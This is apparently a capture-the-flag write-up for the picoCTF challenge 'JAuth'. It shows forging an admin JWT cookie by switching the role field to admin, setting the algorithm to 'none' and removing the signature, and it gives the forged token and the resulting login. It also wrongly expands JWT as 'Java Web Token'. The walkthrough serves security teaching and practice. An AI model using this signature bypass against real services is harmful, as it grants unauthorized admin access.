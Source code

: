# JAuth

- [Challenge information](JAuth.md#challenge-information)
- [Solution](JAuth.md#solution)

## Challenge information
```
Points: 300
Tags: picoGym Exclusive, Web Exploitation
Author: GEOFFREY NJOGU

Description:
Most web application developers use third party components without testing their security. 

Some of the past affected companies are:
 * Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
 * Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
 * VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?

You can login as test with the password Test123! to get started.

Hints:
1. Use the web browser tools to check out the JWT cookie.
2. The JWT should always have two (2) . separators.
```

## Solution

### Connect to the website

Browse to the web site and login with `test:Test123!`

Next use your browsers DevTools (press F12) and select the Application tab. Then select the `token` cookie.

Copy the cookie which should look like this
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjkwMjIzODc4fQ.XbdYap8wn4MDxo8PiK0XYjRv2hE-UHrSa8xlLmTGbEo
```

This is a Java Web Token (JWT) and it consists of 3 parts separated by dots:
 * Header
 * Payload
 * Signature

### Decode the JWT token

Decode the JWT on an online service such as [Token.Dev](https://token.dev/). Replace the dummy/demo JWT with your data.

The data is base64-decoded and you can see that the header contains
```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

And the payload contains
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1690223878
}
```

The `auth` and `iat` fields are timestamps and will be different in your case.
Note that the `role` field says "user".

### Create a new JWT token

Instead of `role` user we want to be admin, so change this field
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "admin",
  "iat": 1690223878
}
```

But now we have a problem. The signature isn't valid anymore.  
However, we can bypass this by changing the algorithm to none. This disables/removes the signature.
```
{
  "typ": "JWT",
  "alg": "none"
}
```

Copy the new JWT and remember the hint. A JWT should always have two periods and our new JWT only have one.  
So add a period at the end
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY5MDIyMzg3OH0.
```

### Use the new JWT token to get the flag

Go back to the browser and replace the `token` cookie with the new one. Then reload the page.

```
Hello, admin! You have logged in as admin!
picoCTF{<REDACTED>}
```
